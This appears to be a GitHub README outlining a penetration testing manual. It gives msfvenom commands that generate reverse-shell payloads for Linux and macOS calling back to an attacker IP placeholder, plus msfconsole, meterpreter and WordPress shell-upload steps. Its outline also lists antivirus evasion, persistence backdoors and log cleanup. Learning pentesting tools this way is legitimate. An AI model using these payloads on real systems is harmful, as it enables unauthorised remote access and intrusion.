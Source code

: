 # linux-experience

### Penetration Testing Manual

#### Table of Contents:
1. **Introduction**
   - Overview of Penetration Testing
   - Purpose of the Manual

2. **Setting Up the Environment**
   - Installation of Metasploit Framework
   - Platform-Specific Considerations (Ubuntu, macOS, Fedora, Debian)

3. **Basic Usage of msfvenom**
   - Generating Payloads for Various Platforms
     - Windows, Linux, macOS
   - Payload Types
     - Reverse Shells, Bind Shells, Meterpreter, etc.

4. **Creating Reverse Shells**
   - Step-by-Step Guide for Different Platforms
     - Ubuntu, macOS, Fedora, Debian
   - Examples with msfvenom

5. **Using msfconsole for Exploitation**
   - Basics of msfconsole
   - Exploiting Vulnerabilities
     - Locating and Exploiting Vulnerabilities in Target Systems
   - Post-Exploitation Techniques

6. **Advanced Payload Delivery**
   - Embedding Payloads in Various File Types
   - Evading Antivirus Detection
   - Customizing Payloads for Specific Scenarios

7. **Privilege Escalation Techniques**
   - Local Privilege Escalation
   - Exploiting Misconfigurations
   - Finding and Exploiting Vulnerabilities

8. **Creating and Delivering Exploits**
   - Identifying Targets
   - Crafting and Delivering Exploits
   - Post-Exploitation Strategies

9. **Persistence Techniques**
   - Maintaining Access to Compromised Systems
   - Creating Persistent Backdoors

10. **Covering Tracks**
    - Cleaning Up Logs
    - Hiding Traces of the Attack

11. **Documentation and Reporting**
    - Importance of Documentation
    - Creating Reports

12. **Legal and Ethical Considerations**
    - Code of Conduct
    - Legal Implications of Penetration Testing

### Example Sections:

#### Section 3: Basic Usage of msfvenom

##### 3.1 Generating Payloads for Ubuntu
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f elf -o payload.elf
```

##### 3.2 Generating Payloads for macOS
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f macho -o payload.macho
```

#### Section 5: Using msfconsole for Exploitation

##### 5.1 Basics of msfconsole
```bash
msfconsole
use exploit/<exploit_module>
set RHOSTS <target_ip>
set payload <selected_payload>
exploit
```

##### 5.2 Post-Exploitation Techniques
```bash
meterpreter > sysinfo
meterpreter > shell
```

#### Section 6: Privilege Escalation Techniques

##### 6.1 Local Privilege Escalation
```bash
exploit suggester
```

##### 6.2 Exploiting Misconfigurations
```bash
use exploit/multi/http/wp_admin_shell_upload
```

